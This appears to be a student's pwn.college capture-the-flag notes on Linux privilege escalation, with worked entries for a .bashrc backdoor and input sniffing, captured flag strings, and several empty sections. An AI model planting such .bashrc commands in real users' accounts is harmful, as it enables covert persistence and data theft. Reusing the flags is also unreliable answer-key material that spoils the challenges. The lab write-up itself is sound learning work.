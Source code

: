 # Bashrc Backdoor

### Edit .bashrc


**Flag:** `pwn.college{cv8W_UYxYaPgaeK7AQx8kfMvlPn.0VMzEzNxwSN2EzNzEzW}`

## Process
Ran `nano /home/zardus/.bashrc` and added `cat /flag` to it. Then, `/challenge/victim` gave me the flag.

## What I learnt
`.bashrc` is the file run on the startup of the shell/terminal.

## References
No references used.



<br><br><br><br><br>



# Sniffing Input

### Make a bash script to get input


**Flag:** `pwn.college{s7pxa6UX26yxmgYRrzPaHKP8uI_.0VNzEzNxwSN2EzNzEzW}`

## Process
Ran `nano /home/zardus/.bashrc` and wrote
```
read input

if [ $input == "flag_checker" ]
then
        echo "Type the flag"
        read flag
        cat $flag
fi
```
Then I ran `challenge/victim` to get the flag.

## What I learnt


## References
No references used.



<br><br><br><br<br>




# Overshared Directories

### Rewrite a file in an opened up directory


**Flag:** `pwn.college{gK-rwkpnIfR2Hxd2J_wvqRMDtOi.0FM0EzNxwSN2EzNzEzW}`

## Process


## What I learnt


## References
No references used.



<br><br><br><br<br>



# Tricky Linking

### Desc


**Flag:** ``

## Process


## What I learnt


## References
No references used.



<br><br><br><br<br>




# Sniffing Process Arguments

### Desc


**Flag:** ``

## Process


## What I learnt


## References
No references used.



<br><br><br><br<br>




# Snooping on Configuratiins

### Desc


**Flag:** ``

## Process


## What I learnt


## References
No references used.
